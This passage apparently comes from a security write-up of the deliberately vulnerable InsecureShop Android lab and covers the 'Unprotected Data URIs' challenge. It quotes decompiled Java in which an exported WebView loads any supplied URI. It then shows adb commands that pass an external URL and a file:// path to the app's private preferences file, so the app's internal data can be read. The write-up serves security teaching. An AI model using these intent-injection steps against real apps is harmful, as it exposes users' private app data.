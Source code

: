 ![image.png](/assets/InsecureShop/image%209.png)

Once the button is clicked, the URL will be launched, indicating the access of the `privateActivity` Intent.

## **Unprotected Data URIs**

> **Description:** The untrusted URI's passed via `loadUrl` method allows attackers to pass arbitrary URL in webview.

This challenge is similar to others, as we have an implicit intent in the `com.insecureshop.WebView2Activity` that is exported. But this time it takes any value from us and tries to load it with WebView and that means we can access internal files also.

```java
        Intent intent = getIntent();
        Intrinsics.checkExpressionValueIsNotNull(intent, "intent");
        String dataString = intent.getDataString();
        if (!(dataString == null || StringsKt.isBlank(dataString))) {
            Intent intent2 = getIntent();
            Intrinsics.checkExpressionValueIsNotNull(intent2, "intent");
            webview.loadUrl(intent2.getDataString());
            return;
        }
```

Let’s call the Intent:

```powershell
PS C:\Users\Muhammad> adb shell  am start -n com.insecureshop/.WebView2Activity -d https://itsfading.github.io
Starting: Intent { dat=https://itsfading.github.io/... cmp=com.insecureshop/.WebView2Activity }
PS C:\Users\Muhammad> adb shell  am start -n com.insecureshop/.WebView2Activity -d file:///data/data/com.insecureshop/shared_prefs/Prefs.xml 
Starting: Intent { dat=file:///data/data/com.insecureshop/shared_prefs/Prefs.xml cmp=com.insecureshop/.WebView2Activity }
```
